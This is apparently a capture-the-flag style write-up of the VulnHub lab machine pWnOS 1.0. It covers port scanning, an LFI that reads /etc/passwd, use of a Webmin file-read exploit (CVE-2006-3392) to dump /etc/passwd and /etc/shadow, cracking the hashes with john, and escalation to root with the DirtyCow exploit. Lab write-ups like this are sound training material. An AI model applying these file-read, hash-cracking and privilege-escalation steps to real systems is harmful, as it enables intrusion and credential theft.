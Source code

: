```yaml
---
layout: post
title:  "pWnOS: 1.0"
date:   2021-1-21  +0400
categories: vulnhub pwnos1
description: "This is the first machine of the pWnOS series. This machine is ranked as easy, but took loads of effort to pwn. Hope you enjoy it!"
---
```


<span style="text-decoration: underline">Box Stats:</span>

| Name: | pWnOS: 1.0 |
|-------|--------|
| Series: | [pWnOS](https://www.vulnhub.com/series/pwnos,3/) |
| Link: | [pWnOS: 1.0](https://www.vulnhub.com/entry/pwnos-10,33/) |
| OS: | Ubuntu 2.6.32 |
| Creator: | [pwnos](https://www.vulnhub.com/author/pwnos,6/) |


## Topics: ##
- LFI
- PHP enumeration
- Hash Cracking
- Privilige Escalation

## Recon ##
Start your scans and gather your results!
```
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m54s, deviation: 4h14m34s, median: -3h59m55s
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2021-01-11T11:16:24-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Enumeration ##
We have a couple of ports open that are interesting and can be the potential way inside the machine. We know that `SSH` can be used as a stable connection, so I am guessing there will not be any misconfigurations with that protocol. 

# Port 80 - HTTP ## 
When browsing to the webpage at the IP address, we are greeted with a `pWnOS homepage`. We can click the next button which navigates us to a page that allows us to enter our name and choose our skill. By clicking the `Please Help!` button, we get trolled by the webpage telling us that we suck.

I was unaware of an LFI in this page, however once I deleted the end of the url which was `name=&submit=Please+Help%21` a php error was displayed: ` Warning: include() [function.include]: Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/index1.php on line 18`. From here, we can use the `connect` function and set it to `/etc/passwd` for the LFI. This displays the `/etc/passwd` file:

![/etc/passwd from LFI]()

# Port 139+445 - SMB #
Nothing interesting was found in the file share. The shares were:
```
	Sharename       Type      Comment
	---------       ----      -------
	home            Disk      Home Directory for vmware User
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (ubuntuvm)
```

The `print$, IPC4$` shares had no valuable info, but the `home` share allowed us to view the `vmware` users files. I don't want to spoil the machine, so I will finish enumerating this protocol.

# Port 10000 - Webmin HTTP #
When browsing to the url `http://________:10000/` we are redirected to `/session_login.cgi`. When I first tried enumerating the login field, after a number of tries, I was blocked from the server. After restarting the machine, I started looking for exploits that relate to `Webmin 0.01`. I found an exploit with the CVE of `CVE-2006-3392` at [SecurityFocus](www.securityfocus.com) that can be found [here](http://www.securityfocus.com/bid/18744). It is luckily a metasploit module as well, which makes it easier for us to exploit. We can use it download files from the host (and we have root priviliges too!). I was able to download the `/etc/passwd` and `/etc/shadow` file:

`/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

`/etc/shadow` file:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

We can use the `unshadow` tool to create a file with the combined data of the `/etc/passwd` and the `/etc/shadow` file to create one file with the usernames and password details. The usage is simple: `sudo unshadow PASSWORD-FILE SHADOW-FILE`. This will give us the output of:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:!:100:101::/nonexistent:/bin/false
syslog:!:101:102::/home/syslog:/bin/false
klog:!:102:103::/home/klog:/bin/false
mysql:!:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:!:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:1001:1001::/home/obama:/bin/bash
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:1002:1002::/home/osama:/bin/bash
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:1003:1003::/home/yomama:/bin/bash
```

## Exploitation ##
We can crack the hashes that we have gathered, I used `john` and the `rockyou.txt` wordlist to crack the hashes. I was able to find the `vmware` user's password which was `h4ckm3`. I used this to login via SSH, but this can also be used to login to the SMB server! From here, we can use the widely-known `DirtyCow` exploit which works on `Linux Kernel 2.6.22 < 3.9`. Compile the exploit using the `gcc -pthread dirty.c -o dirty -lcrypt` command. After following the prompt, the user `firefart` will be added with the password you chose:

```
$ su firefart
Password: password
$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
We have pwned the machine! This machine was easy but took hard work to find LFIs and other issues. The webmin server also issues IP bans which made me restart the machine several times. Thank you for reading this writeup, and see you later! 
